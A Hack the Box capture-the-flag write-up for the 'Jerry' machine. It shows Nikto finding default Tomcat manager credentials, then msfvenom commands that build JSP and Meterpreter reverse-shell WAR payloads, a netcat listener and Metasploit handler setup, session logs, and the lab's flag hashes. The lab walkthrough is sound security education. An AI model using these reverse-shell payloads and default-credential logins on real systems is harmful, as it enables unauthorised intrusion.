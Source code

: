 ```yaml
---
title: "Hack the box - Jerry"
date: 2018-07-18T20:08:47+02:00
draft: false
---
```


This is my writeup of the Hack the Box machine [Jerry](https://www.hackthebox.com/machines/jerry).

I used Nikto for enumeration and `msfvenom` to get a reverse shell. The revere shell was unstable, so I used Meterpreter to get a more reliable foothold.

## Enumeration

The [nmap scan](nmap_scan.txt) showed a Tomcat instance, remote desktop port (3389) among other open ports.

I had no luck in getting access to the remote desktop port.

And unfortunately, the Tomcat required credentials.

The version was 7.0.88 of which there existed an exploit for privilege escalation, but this only local, not remote.

Since this was a web-server, maybe Nikto could help.

```shell
trickmask@kali:~$ nikto -h 10.10.10.95:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2018-07-17 20:03:53 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
[snip]
+ OSVDB-3233: /a/: May be Kebi Web Mail administration menu.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
[snip]
```

It found something on the `/a/` endpoint. Opening it up only displayed an empty page.

It found `Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret')`. Score!

This gave access to uploading/deploying `.war` files from <http://10.10.10.95:8080/manager/html>.

## Exploit

How to get reverse shell? This is a Windows box, so we don't have the `nc` utility.

I ended up using Metasploit to generate a reverse-shell to my machine.

I got the generation script from the archive at http://netsec.ws/?p=331.

```shell
$ msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=10.10.XX.XX \
LPORT=44332 \
-f war \
-o shell.war
```

I deployed `shell.war` in Tomcat, opened a listening socket on my machine `nc -lvp 44332`, and then activated the exploit by visiting the application at <http://10.10.10.95:8080/shell/>, and it connected back!
I found the flags on the desktop.

```batchfile
trickmask@kali:~/Desktop$ nc -lvp 44332
listening on [any] 44332 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.95] 49264
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>
```

## Exploit using Metepreter payload

Annoyingly the shell was rather unstable. Somewhat randomly it dropped the connection (mostly after I mistyped something). I've heard about Metepreter before, and wanted to try that out.

Using `msfvenom --list | grep meterpreter` I could find the payload I could use: `windows/x64/meterpreter_reverse_tcp`.

I generated the reverse shell `.war` file:

```shell
$ msfvenom \
-p windows/x64/meterpreter_reverse_tcp  \
LHOST=10.10.XX.XX \
LPORT=44332 \
-f war \
-o meterpreter.war \
--platform windows \
--arch x64
```

And deployed `meterpreter.war` in Tomcat.

Set up the handler (in `msfconsole`)

```shell
msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter_reverse_tcp
msf > set LHOST 10.10.15.234
msf > set LPORT 44332
msf > exploit

[*] Started reverse TCP handler on 10.10.14.234:44332
```

Activated exploit by visiting <http://10.10.10.95:8080/meterpreter/>, and watched as I get a Meterpreter session from which I could launch a shell:

```batchfile
[*] Meterpreter session 4 opened (10.10.14.234:44332 -> 10.10.10.95:49278) at 2018-07-18 16:22:48 +0200

meterpreter > shell
Process 2908 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>
```

